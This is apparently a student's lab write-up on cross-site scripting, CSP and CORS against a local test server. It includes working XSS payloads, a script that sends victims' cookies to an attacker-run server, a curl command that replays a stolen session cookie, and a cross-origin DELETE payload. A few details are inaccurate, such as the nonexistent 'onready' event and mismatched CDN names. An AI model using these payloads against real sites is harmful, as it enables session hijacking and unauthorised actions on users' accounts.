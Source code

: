 # P2 - Pedro Pinto 115304

## Cross-Site Scripting (XSS)

### Reflected Cross-Site Scripting
```
http://0.0.0.0:6543/search?q=%3Cscript%3Ewindow.location.replace(%22http://www.w3schools.com%22);%3C%2Fscript%3E
```

### Stored Cross-Site Scripting
```html
<img onready="alert(document.cookie)" src="http://placehold.it/64x64"/>
```

### Cross-Site Scripting Forgery
First, cross-site with cookie's information. This is made by using ajax in a POST method to our `hacker_server.py` server

```html
<img onclick="$.ajax({
  url: 'http://127.0.0.1:8000/cookie',
  type: 'POST',
  data: 'username=Administrator&cookie=' + document.cookie,
})
" src="http://placehold.it/64x64"/>
```

After getting the cookie via `hacker_server.py`, request the vulnerable server to create a new post (only authenticated users can create new posts!!):

```bash
curl 'http://0.0.0.0:6543/add_post' -X POST --cookie "auth_tkt=634c6fa21abcd6b41e57860edc301e9b3a23e639da12049a6dbd51174171abe9256ab3f8beb3c2f97f5ee1ecd5d1a5cf0b2abbb5e74e84b323a58e19e2493c7d6701ae42QWRtaW5pc3RyYXRvcg==\!userid_type:b64unicode" -d "title=HACKED&content=hacked by pedro"
```

## Content-Security-Policy (CSP)

Source list reference:
 - **\***
 - **'none'**
 - **'self'**
 - **unsafe-inline**: Allows use of inline source elements such as style attribute, onclick, or script tag bodies and `javascript`

CSP Directive Reference:
 - **default-src**: default policy for fetchinf resources such as JS, img, css,.... An example for blocking everything, except from inside the server and the Content Delivery Network (CDN) is:
    ```
    default-src 'self' cdn.jsdelivr.com
    ```
    Scripts can only be loaded from the local server or `cdn.jsdelivr.net` a known, and probably safe CDN
 - **scipt-src**: Define valid sources of JavaScript
    ```
    script-src 'self' js.example.com
    ```
 - **style-src**: Define valid sources of stylesheets or CSS.
    ```
    style-src 'self' css.example.com
    ```
 - **connect-src**: Applies to `XMLHttpRequest` (AJAX), `WebSocket`, `fetch()`, `<a ping>`. If not allowed the browser emulates a 400 HTTP status code.
    ```
    connect-src 'self';
    ```

## Cross-Origin Resource Sharing (CORS)

Notice that:
 - **CORS** controls who can access your server's resources.
 - **CSP** controls what content can run on your website, protecting it from malicious code execution.

**CORS** is a security mechanism implemented by web browsers that controls how resources (like APIs, fonts, etc.) are requested from different domains than the one serving the web page. By default, web browsers block requests to other domains for security reasons (called the same-origin policy). CORS allows you to bypass this restriction in a controlled way. 

Example: You want to let requests from http://internal:6543 access your API at http://external:8000. CORS would define that relationship in the response headers:
```
Access-Control-Allow-Origin: https://internal:6543
Access-Control-Allow-Methods: GET, POST, DELETE
```
In the external server you must also implement `do_OPTIONS(self)` and `do_<method>(self)`, for handling requests properly.

Example of an attack payload:
```html
<img onload="$.ajax({
  url: 'http://external:8000/smile.jpg',
  type: 'DELETE',
  success: function() { alert('smile.jpg loaded')
 },
})
" src="http://placehold.it/64x64">
```

